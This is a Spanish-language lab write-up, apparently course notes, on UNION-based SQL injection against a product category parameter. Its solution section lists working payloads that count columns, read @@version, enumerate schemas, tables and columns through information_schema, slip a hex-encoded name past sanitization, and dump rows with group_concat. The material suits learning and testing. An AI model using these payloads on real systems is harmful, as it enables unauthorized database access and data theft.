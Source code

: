En esta clase aplicamos una inyección SQL con UNION para extraer la versión del motor de base de datos, esta vez sobre sistemas como MySQL o Microsoft SQL Server.

La vulnerabilidad está en el filtro de categoría de productos. Al interceptar la solicitud y modificar el parámetro ‘category’, podemos inyectar una consulta adicional que devuelva el valor del sistema.

El proceso consiste en:

- Interceptar la solicitud con Burp Suite y probar distintas combinaciones hasta determinar el número de columnas que devuelve la consulta y cuáles aceptan texto. En este caso, son dos columnas de texto.
- Una vez identificadas, se usa la función ‘**@@version**‘, propia de MySQL y SQL Server, para extraer información del motor y su versión.
- El símbolo ‘**#**‘ se utiliza como comentario para anular el resto de la consulta original.

Esta técnica demuestra cómo, con una inyección bien construida, es posible reconocer el entorno sin necesidad de credenciales o acceso especial.

**Quédate con esto**: Conocer el motor de base de datos desde fuera es el primer paso para afinar futuras inyecciones y adaptar payloads según el sistema objetivo.

![Pasted_image_20250702150520.png](Imagenes/Pasted_image_20250702150520.png)
Solucion
Primero visualizar cuantas columnas hay ' order by (el numero de mayor a menor)
![Pasted_image_20250702151029.png](Imagenes/Pasted_image_20250702151029.png)
luego toca jugar con union select para visualizar la version ' union select 1,@@version-- -
![Pasted_image_20250702151254.png](Imagenes/Pasted_image_20250702151254.png)
despues para enumerar las bases de datos ponemos lo siguiente ' union select 1,schema_name from information_schema.schemata-- -
![Pasted_image_20250702151806.png](Imagenes/Pasted_image_20250702151806.png)
en caso de que diera error es por que puede ser que tenga mucha informacion por lo que tenemos que poner limites
' union select 1,schema_name from information_schema.schemata limit 0,1-- - y tocaria jugar con el primer numero para que nos empiece a enumerar las BD (importante en esto se hiso con pets necesitamos quitarlo para que iterara por todos los pots)
![Pasted_image_20250702152205.png](Imagenes/Pasted_image_20250702152205.png)
y para enumerar las tablas en una unica base de datos ' union select NULL,group_concat(schema_name) from information_schema.schemata-- - y modificamos con group concat para que no la mueste todas y quitar limit
![Pasted_image_20250702153247.png](Imagenes/Pasted_image_20250702153247.png)
entonces para mostrar todas las tablas lo mejor seria utilizar un peticion con GET
![Pasted_image_20250702153757.png](Imagenes/Pasted_image_20250702153757.png)y para que sea para una BD en especifico ponemos lo siguiente ' union select NULL,table_name from information_schema.tables where table_schema="academy_labs"-- -
![Pasted_image_20250702154236.png](Imagenes/Pasted_image_20250702154236.png)
en caso de que no funcione por temas de sanitizacion podemos probar con la cadena en hexadecimal
![Pasted_image_20250702154431.png](Imagenes/Pasted_image_20250702154431.png)
y esto lo ponemos siempre poniendo primero 0x (0x61636164656d795f6c616273) obtenemos el mismo resultado
![Pasted_image_20250702154810.png](Imagenes/Pasted_image_20250702154810.png)
ahora si quisieramos enumerar las columnas ' union select NULL,column_name from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![Pasted_image_20250702155107.png](Imagenes/Pasted_image_20250702155107.png)
En caso de que no mostrar todos los datos hay que jugar con group_concat
' union select NULL,group_concat(column_name) from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![Pasted_image_20250702155401.png](Imagenes/Pasted_image_20250702155401.png)
y para mostar los datos de la tabla ' union select NULL,group_concat(category,':') from academy_labs.products-- -
![Pasted_image_20250702160100.png](Imagenes/Pasted_image_20250702160100.png)
